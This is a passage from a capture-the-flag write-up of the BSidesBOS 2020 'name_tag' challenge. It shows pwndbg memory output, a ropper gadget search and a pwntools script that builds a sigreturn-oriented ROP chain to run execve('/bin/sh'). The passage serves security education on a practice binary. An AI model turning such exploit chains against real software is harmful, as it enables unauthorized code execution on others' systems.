 ```
pwndbg> search "/bin/sh"
libc-2.31.so    0x7ffff7f7a143 0x68732f6e69622f /* '/bin/sh' */
pwndbg> vmmap name_tag
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x401000 r--p     1000 0      /home/kali/gh-ctf/bsidesbos-2020/name_tag/name_tag-traceable
          0x401000           0x402000 r-xp     1000 1000   /home/kali/gh-ctf/bsidesbos-2020/name_tag/name_tag-traceable
          0x402000           0x403000 r--p     1000 2000   /home/kali/gh-ctf/bsidesbos-2020/name_tag/name_tag-traceable
          0x403000           0x404000 r--p     1000 2000   /home/kali/gh-ctf/bsidesbos-2020/name_tag/name_tag-traceable
          0x404000           0x405000 rw-p     1000 3000   /home/kali/gh-ctf/bsidesbos-2020/name_tag/name_tag-traceable
```

So we can write to the data section and since the binary does not use PIE this
is a static location we can reference. We do need to be a bit careful writing
here since it also houses data the program uses for various purposes, but since
our input is really short and we aren't returning back to the program we can
just write to the beginning.

After we read `/bin/sh` into that location we will want to clear out `rax` so
that when we return back to the sigreturn gadget `add rax,0xe; add rax,0x1; syscall`
it sets `rax` to 15 as we want to execute the sigreturn syscall. After some
gadget searching we find a gadget that can clear it for us:

```
name_tag[master*] $ ropper --file name_tag --search "mov eax"
[INFO] Searching for gadgets: mov eax
0x0000000000401279: mov eax, 0; pop rbp; ret;
```

At this point our chain is:
1. Read `/bin/sh` into known location
1. Clear `rax`
1. sigreturn sycall

The way that sigreturn works is that it reads the values of the stack after the
syscall and loads them into the appropriate registers and transfers execution
there. There are posts which go into the details of the structure, but we just
use the pwntools class to construct it for us. Our ROP payload we write to the
heap will look like this:

```python
bin_sh_addr = 0x404000
r = ROP(exe)
r.readStr(bin_sh_addr, 0xff)
r.raw(clear_eax)
r.raw(0) # pad because the clear_eax has an extra pop
r.raw(sigreturn)

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = bin_sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload = r.chain() + bytes(frame)
```
